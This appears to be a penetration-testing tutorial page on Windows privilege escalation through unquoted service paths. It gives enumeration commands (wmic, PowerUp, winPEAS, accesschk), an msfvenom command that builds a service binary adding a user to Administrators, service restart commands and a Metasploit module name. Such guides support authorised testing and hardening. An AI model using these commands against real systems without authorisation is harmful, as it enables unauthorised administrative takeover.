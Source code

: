 # Unquoted Service Paths

## Theory

If the path to an executable is not enclosed in quotes, Windows will try to run all the endings before a space.

For example, for the path `C:\Program Files\Some1 Folder\Some2 Folder\test.exe` Windows will try to run it:

```bash
C:\Program.exe 
C:\Program Files\Some1.exe 
C:\Program Files\Some1 Folder\Some2.exe
C:\Program Files\Some1 Folder\Some2 Folder\test.exe
```

* If we have write permissions on `C:\`, we can create a malicious executable named `Program.exe`.
* If we have write permissions on `Program Files`, we can create a malicious executable named `Some1.exe`.
* If we have write permissions on `Some1 Folder`, we can create a malicious executable called `Some2.exe`.
* If we have write permissions on `Some2 Folder`, we can NOT create a malicious executable.

That is to say, except in the penultimate path, if we have write permissions in the others, and the service that executes the **.exe** does not have quotes, there are great possibilities to escalate privileges. The only thing that remains to be verified is if the service starts by itself or if we have permissions to start/stop it. All these steps will be covered in the Verification section.

## Verification

{% tabs %}
{% tab title="Manual (part 1)" %}
### Manual verification (part 1)

In the first part, there are 5 simple conditions that must be met in the following order:

```shell
# 1. Search Unquoted Service Path:
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """ # PS
cmd /c 'wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """' # CMD
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

# 2. The path of the binary must contain at least 1 space. Example: C:\Program Files CustomApp.exe
```

We then proceed to do the following to each service name to see if they meet the 3 missing conditions:

```bash
sc qc <NAME SERVICE>
```

3 conditions must be met:

* The `BINARY_PATH_NAME` must not have quotes.
* The `BINARY_PATH_NAME` must contain spaces.
* The `SERVICE_START_NAME` must be **LocalSystem** (or another user).
* (OPTIONAL) : The `START_TYPE` can be `1` (it will be necessary to restart the computer), `2` (automatic service, although we have to check if we can restart even so) and `3` (it must be started manually and it is the most convenient if we have permissions to do it).

<table><thead><tr><th>Start Type</th><th align="center">Code</th><th>Description</th><th data-type="checkbox">PrivEsc?</th></tr></thead><tbody><tr><td>Automatic</td><td align="center">2</td><td>Indicates that the service must be started (or was started) by the operating system, at system startup. If an automatically started service depends on a manually started service, the manually started service is also automatically started at system startup.</td><td>true</td></tr><tr><td>Manual</td><td align="center">3</td><td>Indicates that the service is started only manually, by a user (via the Service Control Manager) or by an application.</td><td>true</td></tr><tr><td>Boot</td><td align="center">0</td><td>Indicates that the service is a device driver started by the system loader. This value is only valid for device drivers.</td><td>false</td></tr><tr><td>Disabled</td><td align="center">4</td><td>Indicates that the service is disabled, so it cannot be started by a user or application.</td><td>false</td></tr><tr><td>System</td><td align="center">1</td><td>Indicates that the service is a device driver started by the <code>IOInitSystem</code> function. This value is only valid for device drivers.</td><td>false</td></tr></tbody></table>

If everything is fulfilled, we move on to part 2 of the verification.
{% endtab %}

{% tab title="Automatic  (part 1)" %}
### PowerUp

```powershell
Invoke-AllChecks
```

![Example of a potentially vulnerable service (without quotes, with spaces, with modifiable paths, with restart permissions and that the binary is executed with SYSTEM permissions).](../../../../.gitbook/assets/unquoted\_service\_path.png)

The following 4 conditions must be met:

* **Path** : The path must contain **spaces** and **not have quotes**.
* **StartName = LocalSystem**: This tells us that the service is running with system privileges.
* **CanRestart = True** : The service should be able to restart, although this happens in most cases. If it tells us False, surely if the computer is restarted, all services will be restarted.
* **ModifiablePath**: This field must tell us the modifiable directory (Modifiable Path), and in the "IdentityReference" field it must tell us a group where we are to write on that directory.

If the 4 conditions are met, we can go directly to the privilege escalation.

{% hint style="info" %}
PowerUp checks all services, so we don't have to worry too much.
{% endhint %}

### winPEAS

```
winPEAS.exe quit servicesinfo
```

![winPEAS info](../../../../.gitbook/assets/unquoted\_service\_path\_winpeas.png)

Explanation of the information provided by winPEAS in the image above:

* The service and possible privilege escalation (Unquoted Path Service).
* The path of the binary.
* It must be started manually, that would be the configuration called START\_TYPE = DEMAND\_START (2).
* The service is stopped.
* And it tells us that it has no quotes and that it has spaces.

Now, we can move on to part 2 of the verification.
{% endtab %}

{% tab title="Verification (part 2)" %}
Now we have to check 2 conditions, if we have permissions to start/stop the service and if we have permissions on a directory in the path of the binary.

### Permissions to start/stop the service

```shell
# Accesschk:
accesschk64.exe /accepteula -ucqv <USERNAME> <SERVICE NAME>

# sdshow:
whoami /user # Remember the SID.
sc sdshow <SERVICE NAME>
## We look for the SID and we see the permissions: 
## If it has RP (SERVICE_START) and WP (SERVICE_STOP)

# Get-ACL
Get-ACL -Path HKLM:\System\CurrentControlSet\Services\<SERVICE NAME> | fl
## RP (SERVICE_START) and WP (SERVICE_STOP)

# Get-ServiceACL (we can download and import the script from here: https://raw.githubusercontent.com/Sambal0x/tools/master/Get-ServiceAcl.ps1)
"<SERVICE NAME>" | Get-ServiceAcl | select -ExpandProperty Access
```

### Permissions in a directory in the path of the binary

Let's see if we can write to some of these directories.

```shell
# Example:
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
# Paths:
C:\Program.exe # Only if we have write permissions in C:\
C:\Program Files\Unquoted.exe # Only if we have write permissions in C:\Program Files
C:\Program Files\Unquoted Path.exe # Only if we have write permissions in C:\Program Files
C:\Program Files\Unquoted Path Service\Common.exe # Only if we have write permissions on C:\Program Files\Unquoted Path Service
# To verify this, we can do it through several utilities:
icacls <PATH>
accesschk.exe /accepteula -uwdq "<PATH>"
Get-ACL -Path "<PATH>" | fl
```
{% endtab %}
{% endtabs %}

## Privilege Escalation

{% tabs %}
{% tab title="Malicious EXE" %}
We can generate an EXE file, containing a malicious payload such as a reverse shell, execute a command, etc. The name of the binary must be with the name of a part of the directory (example of common files: Common.exe) and we load it in the directory where we have write permissions.

{% content-ref url="../../../reverse-shells/windows-rev-shells.md" %}
[windows-rev-shells.md](../../../reverse-shells/windows-rev-shells.md)
{% endcontent-ref %}

```shell
# Add user to Administrators group:
msfvenom -p windows/exec CMD='net localgroup administrators <USER> /add' -f exe-service -o common.exe
```

Finally, if the service is started, we stop it and start it again:

```shell
# Stop service:
sc stop <SERVICE_NAME>
net stOP <SERVICE_NAME>
# Start service:
sc start <SERVICE_NAME>
net start <SERVICE_NAME>
```
{% endtab %}

{% tab title="Metasploit" %}
```
exploit/windows/local/trusted_service_path
```
{% endtab %}
{% endtabs %}
